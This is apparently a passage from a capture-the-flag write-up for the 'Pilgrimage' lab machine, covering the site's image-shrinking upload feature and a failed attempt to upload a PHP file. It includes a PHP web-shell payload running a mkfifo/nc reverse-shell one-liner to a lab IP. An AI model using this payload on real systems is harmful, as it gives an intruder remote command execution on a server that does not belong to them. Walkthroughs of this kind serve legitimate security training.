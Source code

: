 ### HTTP
If we access the website we find an interface to upload and shrink images:
![Website](./images/website.png)

Also, we got a login page and a register were we can create our own user.

If we upload an image file, we get a link like http://pilgrimage.htb/shrunk/6558abb7d1005.png were we can download the shrinked image.

#### File uploading
My first guess at the point is to upload an executable file that will be executed by the server if we access it. The login and register pages are PHP scripts (http://pilgrimage.htb/login.php and http://pilgrimage.htb/register.php). So let's try a PHP payload:
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.14 8081 >/tmp/f'); ?>
```

But uploading it as `payload.php` wasn't successful:
![Shrink failed](./images/shrink_failed.png)
